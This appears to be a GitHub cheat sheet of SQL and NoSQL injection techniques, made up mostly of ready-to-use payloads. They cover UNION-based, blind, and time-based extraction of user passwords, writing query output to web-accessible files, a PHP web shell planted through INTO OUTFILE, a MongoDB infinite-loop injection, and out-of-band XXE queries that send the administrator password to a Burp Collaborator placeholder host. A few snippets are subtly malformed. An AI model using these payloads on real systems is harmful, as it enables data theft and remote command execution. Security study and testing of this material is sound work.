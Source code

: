 **SQL Injection Techniques**
1. **Introduction**
   - One of the most devastating server-side bugs.
   - Nowadays, you won't find it using a simple `'OR 1=1--` payload, but there are some tricks to still find it.
   - Before understanding SQLi, you should know the basics of SQL. Here's a quick SQL refresher: [SQL Basics](https://youtu.be/xiUTqnI6xk8).

2. **Testing with Injection Strings**
   - Test by injecting strings like:
     - `', -, /, ', :, ;`
   
3. **Extracting User ID**
   - SQL Query:
     ```sql
     SELECT Id FROM Users
     WHERE Username='you' AND Password='password123';
     ```
   
4. **Altering Database Records**
   - SQL Query:
     ```sql
     UPDATE Users
     SET Password='password12345'
     WHERE Id = 2;
     ```

5. **Second Order SQLi**
   - SQL Query:
     ```sql
     username="john_Cena' UNION SELECT Username, Password FROM Users;--
     "&password=password123
     ```

6. **Classic SQLi (Rare Nowadays)**
   - SQL Query:
     ```sql
     SELECT Title, Body FROM Emails
     WHERE Username='kane' AND AccessKey='ZB6w0YLjzvAVmp6zvr'
     UNION SELECT Username, Password FROM Users;--
     ```

7. **Blind SQLi**
   - You might use a webserver to get your responses too.
   - SQL Query:
     ```sql
     SELECT * FROM PremiumUsers WHERE Id='2'
     UNION SELECT Id FROM Users
     WHERE Username = 'admin'
     and 1 SUBSTR(Password, 1, 1) = 'a';--
     ```
   
8. **Time-Based SQLi**
   - SQL Query:
     ```sql
     sleep(5)
     2' UNION SELECT
     IF(SUBSTR(Password, 1, 1) = 'a', SLEEP(10), 0)
     Password FROM Users
     WHERE Username = 'admin';
     ```
   
9. **Exfiltrating Data using SQLi**
   - SQL Query:
     ```sql
     SELECT Password FROM Users WHERE Username='admin'
     INTO OUTFILE '/var/www/html/output.txt'
     ```
   - Now, fire up the file in the URL and view.

10. **NoSQL Injection (MongoDB)**
    - Some example queries for NoSQL injection:
      ```javascript
      Users.find({username: 'vickie', password: 'password123'});
      Users.find({username: $username, password: $password});
      Users.find( { $where: function() {
      return (this.username == 'ohyea'; while(true){};) } } );
      Users.find( { $where: function() {
      return (this.username == $user_input) } } );
      ```

11. **Automate with NoSQLMap**
    - [NoSQLMap GitHub](https://github.com/codingo/NoSQLMap/)

12. **Learning About the Database**
    - SQL Query:
      ```sql
      SELECT Title, Body FROM Emails
      WHERE Username='vickie'
      UNION SELECT 1, @@version;--
      ```

13. **Common Commands for Querying the Version**
    - Some common version queries:
      - `@@version` for Microsoft SQL Server and MySQL.
      - `version()` for PostgreSQL.
      - `v$version` for Oracle.
   
14. **Time-Based Database Version**
    - SQL Query:
      ```sql
      SELECT * FROM PremiumUsers WHERE Id='2'
      UNION SELECT IF(SUBSTR(@@version, 1, 1) = '1', SLEEP(10), 0); --
      ```

15. **Gaining a Web Shell**
    - SQL Query:
      ```sql
      SELECT Password FROM Users WHERE Username='abc'
      UNION SELECT "<? system($_REQUEST['cmd']); ?>"
      INTO OUTFILE "/var/www/html/shell.php"
      ```

16. **XML Injection**
    - SQL Query:
      ```sql
      TrackingId=x'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//BURP-COLLABORATOR-SUBDOMAIN/">+%25remote%3b]>'),'/l')+FROM+dual--
      ```
      ```sql
      TrackingId=x'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'.BURP-COLLABORATOR-SUBDOMAIN/">+%25remote%3b]>'),'/l')+FROM+dual--
      ```
   
17. **Hex Entities**
   - SQL Query:
     ```sql
     <storeId><@hex_entities>1 UNION SELECT username || '~' || password FROM users<@/hex_entities></storeId>
     ```
